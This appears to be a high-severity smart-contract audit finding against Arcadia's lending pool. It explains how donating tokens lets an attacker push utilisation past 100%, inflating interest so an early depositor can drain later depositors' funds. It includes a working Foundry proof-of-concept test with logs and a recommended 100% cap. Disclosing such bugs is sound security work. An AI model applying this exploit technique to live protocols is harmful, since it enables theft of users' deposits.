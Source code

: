 Bent Misty Sardine

high

# Utilisation Can Be Manipulated Far Above 100%

## Summary

The utilisation of the protocol can be manipulated far above 100% via token donation. It is easiest to set this up on an empty pool. This can be used to manipulate the interest to above 10000% per minute to steal from future depositors.

## Vulnerability Detail

This attack is inspired by / taken from this bug report for Silo Finance. I recommend reading it as is very well written: https://medium.com/immunefi/silo-finance-logic-error-bugfix-review-35de29bd934a

The utilisation is basically _assets_borrowed / assets_loaned_. A higher utilisation creates a higher interest rate. This is assumed to be less than 100%. However if it exceeds 100%, there is no cap here:

https://github.com/sherlock-audit/2023-12-arcadia/blob/main/lending-v2/src/LendingPool.sol#L809-L817

Normally, assets borrowed should never exceed assets loaned, however this is possible in Arcadia as the only thing stopping a borrow exceeding loans is that the `transfer` of tokens will revert due to not enough tokens in the `Lending pool`. However, an attacker can make it not revert by simply sending tokens directly into the lending pool. For example using the following sequence:

1. deposit 100 assets into tranche
2. Use ERC20 Transfer to transfer `1e18` assets into the `LendingPool`
3. Borrow the `1e18` assets

These are the first steps of the coded POC at the bottom of this issue. It uses a token donation to make a borrow which is far larger than the loan amount. 

In the utilisation calculation, this results in a incredibly high utilisation rate  and thus interest rate as it is not capped at 100%. This is why some protocols implement a hardcap of utilisation at 100%.

The interest rate is so high that over 2 minutes, 100 assets grows to over100000 assets, or a 100000% interest over 2 minutes. The linked similar exploit on Silo Finance has an even more drastic interest manipulation which could drain the whole protocol in a block. However I did not optimise the numbers for this POC.

Note that the 1e18 assets "donated" to the protocol are not lost. They can simply be all borrowed into an attackers account.

The attacker can set this up when the initial lending pool is empty. Then, they can steal assets from subsequent depositors due to the huge amount of interest collected from their small initial deposit

Let me sum up the attack in the POC:

1. deposit 100 assets into tranche
2. Use ERC20 Transfer to transfer `1e18` assets into the `LendingPool`
3. Borrow the `1e18` assets
4. Victim deposits into tranche
5. Attacker withdraws the victims funds which is greater than the 100 assets the attacker initially deposited

Here is the output from the console.logs:

```bash
Running 1 test for test/scenario/BorrowAndRepay.scenario.t.sol:BorrowAndRepay_Scenario_Test
[PASS] testScenario_Poc() (gas: 799155)
Logs:
  100 initial pool balance. This is also the amount deposited into tranche
  warp 2 minutes into future
  mint was used rather than deposit to ensure no rounding error. This a UTILISATION manipulation attack not a share inflation attack
  22 shares were burned in exchange for 100000 assets. Users.LiquidityProvider only deposited 100 asset in the tranche but withdrew 100000 assets!

```

This is the edited version of `setUp()` in `_scenario.t.sol`

```solidity
function setUp() public virtual override(Fuzz_Lending_Test) {
        Fuzz_Lending_Test.setUp();
        deployArcadiaLendingWithAccounts();

        vm.prank(users.creatorAddress);
        pool.addTranche(address(tranche), 50);

        // Deposit funds in the pool.
        deal(address(mockERC20.stable1), users.liquidityProvider, type(uint128).max, true);

        vm.startPrank(users.liquidityProvider);
        mockERC20.stable1.approve(address(pool), 100);
        //only 1 asset was minted to the liquidity provider
        tranche.mint(100, users.liquidityProvider);
        vm.stopPrank();

        vm.startPrank(users.creatorAddress);
        pool.setAccountVersion(1, true);
        pool.setInterestParameters(
            Constants.interestRate, Constants.interestRate, Constants.interestRate, Constants.utilisationThreshold
        );
        vm.stopPrank();

        vm.prank(users.accountOwner);
        proxyAccount.openMarginAccount(address(pool));
    }
```

This test was added to `BorrowAndRepay.scenario.t.sol`

```solidity
    function testScenario_Poc() public {

        uint poolBalance = mockERC20.stable1.balanceOf(address(pool));
        console.log(poolBalance, "initial pool balance. This is also the amount deposited into tranche");
        vm.startPrank(users.liquidityProvider);
        mockERC20.stable1.approve(address(pool), 1e18);
        mockERC20.stable1.transfer(address(pool),1e18);
        vm.stopPrank();

        // Given: collateralValue is smaller than maxExposure.
        //amount token up to max
        uint112 amountToken = 1e30;
        uint128 amountCredit = 1e10;

        //get the collateral factor
        uint16 collFactor_ = Constants.tokenToStableCollFactor;
        uint256 valueOfOneToken = (Constants.WAD * rates.token1ToUsd) / 10 ** Constants.tokenOracleDecimals;

        //deposits token1 into proxyAccount
        depositTokenInAccount(proxyAccount, mockERC20.token1, amountToken);

        uint256 maxCredit = (
            //amount credit is capped based on amount Token
            (valueOfOneToken * amountToken) / 10 ** Constants.tokenDecimals * collFactor_ / AssetValuationLib.ONE_4
                / 10 ** (18 - Constants.stableDecimals)
        );


        vm.startPrank(users.accountOwner);
        //borrow the amountCredit to the proxy account
        pool.borrow(amountCredit, address(proxyAccount), users.accountOwner, emptyBytes3);
        vm.stopPrank();

        assertEq(mockERC20.stable1.balanceOf(users.accountOwner), amountCredit);

        //warp 2 minutes into the future.
        vm.roll(block.number + 10);
        vm.warp(block.timestamp + 120);

        console.log("warp 2 minutes into future");

        address victim = address(123);
        deal(address(mockERC20.stable1), victim, type(uint128).max, true);

        vm.startPrank(victim);
        mockERC20.stable1.approve(address(pool), type(uint128).max);
        uint shares = tranche.mint(1e3, victim);
        vm.stopPrank();

        console.log("mint was used rather than deposit to ensure no rounding error. This a UTILISATION manipulation attack not a share inflation attack");

        //function withdraw(uint256 assets, address receiver, address owner_)

        //WITHDRAWN 1e5
        vm.startPrank(users.liquidityProvider);
        uint withdrawShares = tranche.withdraw(1e5, users.liquidityProvider,users.liquidityProvider);
        vm.stopPrank();

        console.log(withdrawShares, "shares were burned in exchange for 100000 assets. Users.LiquidityProvider only deposited 100 asset in the tranche but withdrew 100000 assets!");


    }
```

## Impact

An early depositor can steal funds from future depositors through utilisation/interest rate manipulation.

## Code Snippet

https://github.com/sherlock-audit/2023-12-arcadia/blob/main/lending-v2/src/LendingPool.sol#L809-L817

## Tool used

Manual Review

## Recommendation

Add a utilisation cap of 100%. Many other lending protocols implement this mitigation.

